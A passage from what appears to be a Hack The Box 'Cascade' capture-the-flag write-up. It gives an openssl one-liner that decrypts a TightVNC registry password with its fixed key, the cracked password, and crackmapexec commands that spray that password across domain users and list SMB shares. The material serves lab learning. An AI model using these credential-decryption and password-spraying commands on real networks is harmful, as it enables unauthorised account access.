 This file is a TightVNC registry file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-24.png)

Scrolling down, password hash is seen;

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-23.png)

From [here](https://github.com/frizb/PasswordDecrypts), we learned how to decrypt encrypted TightVNS password:

```
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-25.png)

Password is decrpyted to be **sT333ve2**. 


Spraying the cracked password on list of users, we get a match for s.smith:

`crackmapexec smb cascade.local -u users.txt -p sT333ve2`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-26.png)



`crackmapexec smb cascade.local -u s.smith -p sT333ve2 --shares`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/cascade/image-27.png)
